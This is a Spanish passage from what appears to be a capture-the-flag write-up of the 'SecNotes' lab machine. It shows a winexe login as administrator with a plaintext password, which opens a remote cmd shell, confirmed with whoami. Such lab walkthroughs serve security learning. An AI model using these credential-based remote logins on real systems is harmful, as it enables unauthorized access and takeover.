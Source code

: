 Intentamos logearnos como Administrator con la herramienta winexe.

```bash
❯ winexe -U '.\administrator%u6!4ZwgwOM#^OBf#Nwnh' //10.129.145.213 cmd.exe
Microsoft Windows [Version 10.0.17134.228]
(c) 2018 Microsoft Corporation. All rights reserved.

C:\WINDOWS\system32>whoami
whoami
secnotes\administrator
```
Hemos pwneado la maquina!
